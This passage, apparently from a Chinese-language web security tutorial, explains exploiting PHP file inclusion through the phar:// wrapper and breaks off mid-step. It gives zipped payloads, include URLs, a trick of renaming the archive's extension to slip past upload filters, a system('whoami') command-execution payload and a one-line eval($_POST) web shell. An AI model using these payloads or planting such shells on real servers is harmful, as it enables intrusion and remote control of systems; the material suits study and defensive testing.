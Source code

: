 写一个文件phpinfo.php，其内容为`&lt;?php phpinfo(); ?&gt;`，打包成zip压缩文件格式的压缩包，如下：

[![](https://p0.ssl.qhimg.com/t01da3a3524e70f5841.png)](https://p0.ssl.qhimg.com/t01da3a3524e70f5841.png)

指定绝对路径:

```
fileinclude.php?file=phar://D:/phpStudy/PHPTutorial/WWW/test.zip/phpinfo.php
```

或者使用相对路径（这里`test.zip`就在当前目录下，和`fileinclude.php`同一目录）:

```
fileinclude.php?file=phar://test.zip/phpinfo.php
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d21f0370fbab1a7a.png)

**注意**：其中`test.zip`必须得是以zip压缩文件格式压缩，其它像rar、7z这样的压缩文件格式就不行了。不过`test.zip`的后缀可以不是zip，可以是像`test.jpg`，甚至`test.111`这样的后缀都行。这里就涉及到了绕过了，如果zip后缀不让上传，那么就修改为`test.111`这样的后缀肯定不会被拦截了，这时就能成功：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a50ba1ff96c58cfe.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t010018b0d16ddeb29a.png)

<a class="reference-link" name="phar://%EF%BC%88%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%EF%BC%89"></a>**phar://（命令执行）**

利用条件：
1. php版本大于等于php5.3.0
1. 对allow_url_include不做要求。
1. 对allow_url_fopen不做要求。
姿势：

同`phar://`，只不过把文件内容改成`&lt;?php system('whoami');?&gt;`

<a class="reference-link" name="phar://%EF%BC%88%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC%EF%BC%89"></a>**phar://（写入木马）**

利用条件：
1. php版本大于等于php5.3.0
1. 对allow_url_include不做要求。
1. 对allow_url_fopen不做要求。
姿势：

写一个木马shell.php，其内容为`&lt;?php [@eval](https://github.com/eval)($_POST[v]);?&gt;`，打包成zip压缩文件格式的压缩包，如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014e6490a3b230ea2f.png)

指定绝对路径
